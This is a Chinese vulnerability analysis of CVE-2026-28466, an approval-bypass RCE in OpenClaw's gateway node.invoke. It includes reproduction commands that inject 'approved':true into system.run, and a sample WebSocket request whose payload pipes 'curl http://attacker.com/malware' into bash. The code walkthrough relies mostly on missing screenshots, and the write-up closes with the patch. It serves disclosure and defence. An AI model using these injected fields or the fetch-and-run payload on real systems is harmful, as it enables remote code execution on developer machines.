# CVE-2026-28466：OpenClaw节点调用批准绕过的RCE精解

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 已认证网关和节点system.run许可为必要前提需元数据化
- npm install未固定版本与项目原生包管理
- Windows CMD命令未注明平台，硬编码节点ID不可复用
- 提醒开放端口与本地实验并无必要关联
- 源码主体依赖截图应补可检索文本
- 版本与评分无结构字段
- 含权威GHSA及固定补丁可核验
- 广告和img重复占位应清理

### 核验来源

- https://github.com/openclaw/openclaw/security/advisories/GHSA-gv46-4xfq-jv58

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

Tu0ling
                    Tu0ling  蚁景网安   2026-03-26 08:30  
  
   
  
# 漏洞描述  
  
2026.2.14 之前的 OpenClaw 版本在网关中存在一个漏洞，无法净化 node.invoke 参数中的内部批准字段，使得经过认证的客户端绕过执行审核对 system.run 命令的批准门禁。拥有有效网关凭证的攻击者可以注入批准控制字段，在连接的节点主机上执行任意命令，可能攻破开发者工作站和配置执行器  
  
  
  
img  
# 漏洞影响  
  
**评分：9.9**  
  
影响：<**2026.2.14**  
# 漏洞复现  
  
在项目根目录下安装依赖  
```
npm install
```  
  
接下来启动网关  
```
set OPENCLAW_SKIP_CHANNELS=1 && set CLAWDBOT_SKIP_CHANNELS=1 && node scripts/run-node.mjs --dev gateway --token test123
```  
  
  
  
img  
  
然后再新开一个终端当做节点  
```
set OPENCLAW_GATEWAY_URL=ws://127.0.0.1:18789 && set OPENCLAW_GATEWAY_TOKEN=test123 && node scripts/run-node.mjs node run --dev
```  
  
注意：记得打开18789端口，因为该项目默认使用该端口  
  
  
  
img  
  
最后漏洞复现  
```
node scripts/run-node.mjs nodes invoke --node 4552da5fa6b27f12d47cb0a73e7d58613ed4d960bf245dca2919591edd8b6b73 --command "system.run" --params "{\"command\":[\"cmd.exe\",\"/c\",\"whoami\"],\"approved\":true}"
```  
  
  
  
img  
  
由于该漏洞使用的前提是已经获取了认证网关客户端的用户，因此我直接进行了漏洞的验证，跳过了身份认证的步骤  
# 漏洞分析  
## 恶意WebSocket请求  
```
{  "id": "attack-001",  "method": "node.invoke",  "params": {    "nodeId": "victim-node-01",    "command": "system.run",    "params": {      "command": ["bash", "-c", "curl http://attacker.com/malware | bash"],      "rawCommand": "curl http://attacker.com/malware | bash",      "approved": true,                 "approvalDecision": "allow-always",      "runId": "fake-approval-id"     },    "idempotencyKey": "malicious-001"  }}
```  
## 后端接收调用  
  
  
  
img  
  
接收websocket连接，生成唯一连接的ID，调用attachGatewayWsMessageHandler来处理后续消息  
  
其中extraHandlers传递 node.invoke字符串  
  
  
  
img  
  
extraHandlers指向GatewayRequestHandlers  
  
  
  
img  
  
在GatewayRequestHandlers中进行字符串到处理器的映射  
  
继续看attachGatewayWsMessageHandler  
  
  
  
img  
  
这里进行了身份验证，连接信息记录，节点注册，以及查找extraHandlers传递的字符串所对应的处理器并调用  
  
调用处理器之前会进行AJV编译验证器  
  
  
  
img  
  
params是Type.Unknown() ，不检查内部结构，使得我们的注入成功通过验证  
  
进入node.invoke 处理器  
  
  
  
img  
  
进行字段是否存在的检查  
  
  
  
img  
  
params是我们可控制的参数对象  
  
  
  
img  
  
这里进行命令权限检查，而system.run通常在允许列表中  
  
  
  
img  
  
没有任何代码检查或过滤 p.params 中的内容，这就使得注入的字段原样保留传递给节点注册表  
  
  
  
img  
  
节点注册表将我们的注入进行JSON序列化后发送给目标节点  
  
  
  
img  
  
节点解析payload  
  
  
  
img  
  
在这里进行处理调用  
  
  
  
img  
  
从JSON字符串还原注入的参数  
  
  
  
img  
  
在这里开始执行我们的命令，存在主要前提：检查 approved ===true或approvalDecision 是否存在  
  
approvalDecision === "allow-always"，添加到永久允许列表  
  
有一个就执行我们的命令  
```
"approved": true,             "approvalDecision": "allow-always",
```  
  
而在我们的注入中带有该参数，这就使得RCE能够执行并返回响应  
# 漏洞修复  
  
  
  
img  
  
新增 sanitizeNodeInvokeParamsForForwarding 函数清洗参数，只允许白名单字段；审批ID必须与请求设备绑定，防止跨设备重放；审批决策强制降级为 allow-once，拒绝任意字段注入  
# 参考  
  
https://github.com/openclaw/openclaw/security/advisories/GHSA-gv46-4xfq-jv58  
  
https://github.com/openclaw/openclaw/commit/0af76f5f0e93540efbdf054895216c398692afcd  
  
   
  
本文转载自：先知社区   作者：  
Tu0ling  
  
   
  
  
  
学  
习  
网安实战课程  
，戳  
“阅读原文”  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
